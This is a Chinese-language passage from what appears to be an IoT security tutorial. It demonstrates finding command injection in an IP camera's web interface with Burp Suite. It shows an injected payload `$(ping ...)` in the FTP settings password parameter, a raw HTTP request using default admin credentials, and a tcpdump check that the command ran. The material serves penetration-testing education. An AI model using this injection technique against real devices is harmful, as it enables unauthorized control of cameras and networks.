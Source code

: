 在嵌入式 web 应用程序中查找命令注入页面的过程相当简单。我们要检查的应用程序中的第一个位置是使用系统命令（如`ping`或`traceroute`）的诊断页面，以及守护进程的配置设置页面（如 SMB、PPTP 或 FTP）。如果我们已经获得固件或获得了对目标设备控制台的访问权，则最好静态分析设备执行的易受攻击的脚本和功能，并验证通过动态分析发现的潜在发现：

1.  让我们看一下目标 IP 摄像头的配置菜单设置，以确定潜在的易受攻击页面：

![](Images/9675cb0f-af21-474c-8094-1b0c3c4f8d1d.png)

2.  没有很多页面可供选择，但我们确实看到了邮件服务和 FTP 服务设置页面。这些页面可以将系统命令输入操作系统以执行。让我们首先检查 FTP 服务设置页面，并尝试通过 Burp 套件使用系统命令操纵参数值：

![](Images/e6c1d0f6-2898-4872-9721-cd5ed3b1054c.png)

3.  在尝试发送`pwd`参数中的有效负载`$(ping%20192.168.1.184)`时，应用程序中似乎出现了字符剥离，如以下屏幕截图所示：

![](Images/81a56e3b-bea5-4e4d-b597-4c9d9b98a8b8.png)

4.  使用诸如`ping`之类的基本命令将有效负载发送到主机，这表明我们的命令已成功执行。为了观察 ping 是否已执行，使用以下命令设置`tcpdump`监听来自目标 IP 摄像机的 ICMP 数据包：

```
$ tcpdump host 192.168.1.177 and icmp
```

5.  使用 Burp Suite 的中继器，我们可以更改值并绕过 IP 摄像头正在执行的客户端检查。使用以下请求，我们可以看到应用程序接受我们的更改，需要根据 HTTP 响应刷新`ftp.htm`页面：

```
RAW HTTP Request  
GET 
/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(ping%20192.168.1.184)&dir=/&mode=0&upload_interval=0 HTTP/1.1 

RAW HTTP Response 
HTTP/1.1 200 OK 
Server: GoAhead-Webs 
Content-type: text/html 
Cache-Control:no-cache 
Content-length: 194 
Connection: close 

<html> 

<head> 

<title></title> 

<meta http-equ"v="Cache-Cont"ol" conte"t="no-cache, must-reva lid"te"><meta http-equ"v="refr"sh" conte"t="0; url=/ftp."tm" /> 

</head> 

<body> 

</body> 

<html> 
```
